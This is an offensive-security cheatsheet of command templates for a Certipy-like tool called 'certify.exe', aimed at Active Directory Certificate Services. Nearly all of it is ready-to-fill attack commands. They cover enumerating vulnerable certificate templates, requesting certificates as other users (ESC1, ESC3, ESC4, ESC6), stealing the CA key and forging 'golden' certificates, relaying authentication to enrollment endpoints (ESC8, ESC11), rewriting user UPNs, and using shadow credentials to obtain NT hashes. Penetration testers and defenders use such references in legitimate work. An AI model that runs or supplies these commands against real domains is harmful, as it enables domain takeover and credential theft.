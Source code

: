 # certify

% adcs, certificate, pki, windows, Active directory, template, shadow credential
#plateform/windows #target/remote #cat/AD/RECON


## enum - Ca
```powershell
Certify.exe cas
```
## enum - list enabled certificate templates 
```
certify.exe find -enabled  -hide-admins -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> [-stdout]
```

## enum - list enabled certificate templates (socks)
add CA to /etc/hosts
```
certify.exe find -enabled -hide-admins -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp [-stdout]
```

## enum - list vulnerable certificate templates 
```
certify.exe find -vulnerable -hide-admins -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp [-stdout]
```

## enum - list vulnerable certificate templates (socks)
add CA to /etc/hosts
```
certify.exe find -vulnerable -hide-admins -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp [-stdout]
```

## enum - enumerate to bloodhound (socks)
```bash
certify.exe find -enabled  -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -old-bloodhound
```

## req - request certificate (v1)
```
certify.exe req -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -ca <ca_name> -template <template> 
```

## req - request certificate (v2)
```
certify.exe req -u <user>@<domain_fqdn> -p '<password>' -target-ip <ca_ip>  -ca <ca_name> -template <template> 
```


## req - retrieve approved request 
```
certify.exe req -u <user>@<domain_fqdn> -p '<password>' -target-ip <ca_ip>  -ca <ca_name> -retrieve <id>
```

## cert - extract cert from pfx
#plateform/linux #target/remote #cat/UTILS
```
certify.exe cert -pfx <pfx> -nokey -out <file>.crt -password <password|jubeaz>
```

## cert - extract key from pfx
```
certify.exe cert -pfx <pfx> -nocert -out <file>.key -password <password|jubeaz>
```

## cert - create pfx from cert
#plateform/linux #target/remote #cat/UTILS
```
certify.exe cert -key <key_file>  -cert <cert_file>  -export -out <pfx_file>
```

## auth - authenticate with pfx certificate
#plateform/linux #target/remote #cat/CONNECT
KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type ======> keep trying 
```
certify.exe auth -pfx <pfx-file>  -domain <domain_fqdn> -username <user> -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp 
```

## auth - authenticate through LDAP (Schannel) with pfx certificate
#plateform/linux #target/remote #cat/CONNECT
```
certify.exe auth -pfx <pfx-file> -dc-ip <dc_ip> -ldap-shell
```

## Golden Certificate - steal CA certificate and private key
#plateform/linux #target/remote #cat/ATTACK
```
certify.exe ca -u <user>@<domain_fqdn> -p '<password>' -backup -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -ca <ca_name>
```

## Golden Certificate - forge certificate
#plateform/linux #target/remote #cat/ATTACK
```
certify.exe forge -ca-pfx <pfx-file> -upn <user>@<domain_fqdn> -crl ldap://<dc_ip>:389
```

## req - request certificate for another user - ESC1 - ESC6
#plateform/linux #target/remote #cat/ATTACK
```
certify.exe req -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -ca <ca_name> -template <template>  -upn <targeted-user>@<domain_fqdn>
```

## req - request certificate on behalf of with Certificate Request Agent certificate - ESC3
#plateform/linux #target/remote #cat/ATTACK
```
certify.exe req -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -ca <ca_name> -template <template> -on-behalf-of '<NetBIOS-domain-name>\<targeted-user>' -pfx <pfx-file>
```

## template - modify template in order to make it vulnerable to ESC1 - ESC4
#plateform/linux #target/remote #cat/ATTACK
```
certify.exe template -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -template <template> -save-old
```

## ca - Issue certificate for specific request id - ESC7
#plateform/linux #target/remote #cat/ATTACK
```
certify.exe ca -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -ca <ca_name> -issue-request <csr-id>
```

## relay - relay authentication to CA Web Enrollment - ESC8
#plateform/linux #target/remote #cat/ATTACK
```
certify.exe relay -target <ca_ip>  -template <template>
```

## relay - relay authentication to RPC Enrollment - ESC11
#plateform/linux #target/remote #cat/ATTACK
```
certify.exe relay -target "rpc://<ca_name>.<domain_fqdn>" -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -ca <ca_name> -template <template>
```

## account - Modify user upn to another one - ESC9 - ESC10
#plateform/linux #target/remote #cat/ATTACK
```
certify.exe account update -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -user <targeted-user> -upn <target_upn>
```


## account - add computer
#plateform/linux #target/remote #cat/ATTACK
```
certify.exe account create -u <user>@<domain_fqdn> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -user user <computer_name> -dns <fqdn>
```


## shadow - get NT Hash using Shadow Credential
#plateform/linux #target/remote #cat/ATTACK
Full Chain exploit of Shadow Credential: Create a Key Credential, Authenticate to get NT hash and TGT, and remove the Key Credential
```
certify.exe shadow auto -u <user>@<domain_fqdn> -p '<password>' -account <targeted-user>  -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp 
```